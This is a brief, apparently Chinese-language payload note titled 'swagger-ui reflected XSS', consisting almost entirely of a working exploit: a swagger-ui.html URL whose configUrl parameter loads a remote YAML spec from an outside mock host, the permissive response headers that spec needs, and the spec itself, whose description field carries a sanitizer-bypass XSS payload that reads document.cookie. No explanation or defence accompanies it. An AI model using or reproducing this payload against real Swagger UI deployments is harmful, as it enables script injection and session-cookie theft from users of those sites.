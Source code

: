 ### swagger-ui 反射型xss

```txt
/swagger-ui.html?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9nZXRtYW4uY24vbW9jay90ZXN0L3Rlc3QyLnlhbWwiCn0=
```

* header:

  Access-Control-Allow-Origin: *

  Content-Type: text/yaml; charset=UTF-8

```yaml
swagger: '2.0'
info:
  title: Example yaml.spec
  description: |
    <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><img src='#' onerror='alert(document.cookie)'>">
paths:
  /accounts:
    get:
      responses:
        '200':
          description: No response was specified
      tags:
        - accounts
      operationId: findAccounts
      summary: Finds all accounts

```

